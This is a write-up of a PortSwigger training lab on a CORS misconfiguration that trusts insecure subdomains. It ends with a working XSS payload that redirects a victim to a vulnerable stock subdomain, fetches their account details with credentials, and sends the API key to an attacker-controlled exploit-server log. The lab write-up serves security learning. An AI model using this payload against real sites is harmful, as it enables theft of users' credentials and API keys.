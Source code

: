```yaml
---
title: CORS vulnerability with trusted insecure protocols
date: 2025-10-21 00:00:00 +0800
categories: [Portswigger, Cross-origin resource sharing (CORS)]
tags: [portswigger, writeup, walkthrough, web, cors]     # TAG names should always be lowercase
description: In this post we will solve a CORS Lab on portswigger, have fun reading.
---
```


## Lab: CORS vulnerability with trusted insecure protocols

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

### Lab 3 Exploitation

In this lab there is an important hint. 

**"If you could man-in-the-middle attack (MITM) the victim, you could use a MITM attack to hijack a connection to an insecure subdomain, and inject malicious JavaScript to exploit the CORS configuration. Unfortunately in the lab environment, you can't MITM the victim, so you'll need to find an alternative way of injecting JavaScript into the subdomain."**

So let’s start with some enumeration,  Open our account details endpoint as usual to find the `Access-Control-Allow-Credentials: true` header so you will do the steps with the origin header:

1 - Try any website —> we will see that it didn’t accept it

2 - Try the null —> also didn’t accept it

3 - Try the a subdomain with the same website —> and yes it have accepted it

![img-description](/assets/img/PortSwigger/CORS/3/subdomain.png)
_Subdomain Request_

So now open burpsuite in the background while enumerating all if the website pages and features, let's see what we have found and see where we can exploit this from

![img-description](/assets/img/PortSwigger/CORS/3/stock.png)
_Stock_

We will find this interesting request from what seems like an infected subdomain with xss as we can see that the stock level is showing in the response, so what about trying to inject malicious javascript in those parameters and see what can we get.

![img-description](/assets/img/PortSwigger/CORS/3/xss.png)
_Xss_

and you will find that yes it have been printed in the page.

so let’s exploit it, go to the exploit server and send this script to the victim while using the document.location() function so that the user is redirected to the malicious endpoint and we can get our api key

```
<script>
document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

and we will see it worked.

![img-description](/assets/img/PortSwigger/CORS/3/api.png)
_API_